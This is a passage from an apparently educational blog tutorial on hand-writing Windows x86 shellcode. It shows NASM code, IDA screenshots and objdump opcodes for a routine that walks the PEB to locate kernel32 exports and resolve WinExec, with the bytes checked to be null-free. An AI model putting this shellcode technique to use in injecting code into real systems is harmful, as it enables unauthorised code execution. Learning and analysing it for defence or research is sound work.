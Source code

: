 ```nasm
	.end:
		
		pop ebp 		; restore all registers and exit
		pop edi
		pop esi
		pop edx
		pop ecx
		pop ebx
		pop eax
		ret
```

I opened it in IDA to show you a better visualization. The one showed in IDA doesn't save all the registers, I added this later, but was too lazy to make new screenshots.

![ida01](https://idafchev.github.io/blog/assets/images/windows_shellcode/ida01.png){: .align-center}  
![ida02](https://idafchev.github.io/blog/assets/images/windows_shellcode/ida02.png){: .align-center}  
![ida03](https://idafchev.github.io/blog/assets/images/windows_shellcode/ida03.png){: .align-center}  

Use [fasm](https://flatassembler.net/) to compile, then decompile and extract the opcodes. We got lucky and there are no null bytes.

```bash
objdump -d -M intel shellcode.exe
```

```
  401000:       50                      push   eax
  401001:       53                      push   ebx
  401002:       51                      push   ecx
  401003:       52                      push   edx
  401004:       56                      push   esi
  401005:       57                      push   edi
  401006:       55                      push   ebp
  401007:       89 e5                   mov    ebp,esp
  401009:       83 ec 18                sub    esp,0x18
  40100c:       31 f6                   xor    esi,esi
  40100e:       56                      push   esi
  40100f:       6a 63                   push   0x63
  401011:       66 68 78 65             pushw  0x6578
  401015:       68 57 69 6e 45          push   0x456e6957
  40101a:       89 65 fc                mov    DWORD PTR [ebp-0x4],esp
  40101d:       31 f6                   xor    esi,esi
  40101f:       64 8b 5e 30             mov    ebx,DWORD PTR fs:[esi+0x30]
  401023:       8b 5b 0c                mov    ebx,DWORD PTR [ebx+0xc]
  401026:       8b 5b 14                mov    ebx,DWORD PTR [ebx+0x14]
  401029:       8b 1b                   mov    ebx,DWORD PTR [ebx]
  40102b:       8b 1b                   mov    ebx,DWORD PTR [ebx]
  40102d:       8b 5b 10                mov    ebx,DWORD PTR [ebx+0x10]
  401030:       89 5d f8                mov    DWORD PTR [ebp-0x8],ebx
  401033:       31 c0                   xor    eax,eax
  401035:       8b 43 3c                mov    eax,DWORD PTR [ebx+0x3c]
  401038:       01 d8                   add    eax,ebx
  40103a:       8b 40 78                mov    eax,DWORD PTR [eax+0x78]
  40103d:       01 d8                   add    eax,ebx
  40103f:       8b 48 24                mov    ecx,DWORD PTR [eax+0x24]
  401042:       01 d9                   add    ecx,ebx
  401044:       89 4d f4                mov    DWORD PTR [ebp-0xc],ecx
  401047:       8b 78 20                mov    edi,DWORD PTR [eax+0x20]
  40104a:       01 df                   add    edi,ebx
  40104c:       89 7d f0                mov    DWORD PTR [ebp-0x10],edi
  40104f:       8b 50 1c                mov    edx,DWORD PTR [eax+0x1c]
  401052:       01 da                   add    edx,ebx
  401054:       89 55 ec                mov    DWORD PTR [ebp-0x14],edx
```